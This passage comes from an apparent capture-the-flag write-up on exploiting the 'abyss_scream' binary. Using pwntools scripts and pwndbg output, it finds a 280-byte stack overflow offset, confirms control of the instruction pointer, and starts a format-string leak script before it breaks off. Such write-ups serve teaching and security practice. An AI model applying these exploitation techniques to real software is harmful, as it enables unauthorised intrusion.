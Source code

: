 ```console
pwndbg> jump *save_msg+154

Continuing at 0x5555555552a3.
Saved score of 0 for x. Date and Time: Now please add a message: 
```
Now we can enter our cyclic pattern in the prompt and inpect the `RSP` to calculate our offset:
```console
*RBP  0x6361617463616173 ('saactaac')
*RSP  0x7fffffffdf08 ◂— 'uaacvaacwaacxaacyaac'
*RIP  0x55555555531d (save_msg+276) ◂— ret 

$ python3 -c 'from pwn import *;print(cyclic_find("uaac"))'
280
```
### Testing our offset
Next we can confirm that this is the right offset by creating a small python script that puts `0xdeadbeef` at our found offset.
```python
from pwn import *

exe = './abyss_scream'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

p = process(exe)

p.sendlineafter(b'Enter input: ', 'x')
p.sendlineafter(b'name: ', 'x')

payload = flat({
  padding: [
    0xdeadbeef
  ]
})

p.sendlineafter(b'message: ', payload)
```
Demonstrating that it works:
```console
$ python3 exploit.py
$ sudo dmesg | tail -n 2
[ 1202.784357] abyss_scream[6648]: segfault at deadbeef ip 00000000deadbeef sp 00007ffefe45a900 error 14
[ 1202.784384] Code: Unable to access opcode bytes at 0xdeadbec5.
```
## Leaking Addresses
Because of the format string vulnerability we can leak addresses of the stack. Lets create a small fuzzing script that will loop through several leaked addresses to see if we find interesting addresses.
```python
from pwn import *

exe = './abyss_scream'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'warning'

def send_payload(payload, name):
   p.recvuntil(b"input: ")
   p.sendline(b"x")
   p.recvuntil(b"name: ")
   p.sendline(name)
   p.recvuntil(b"message: ")
   p.sendline(payload)
```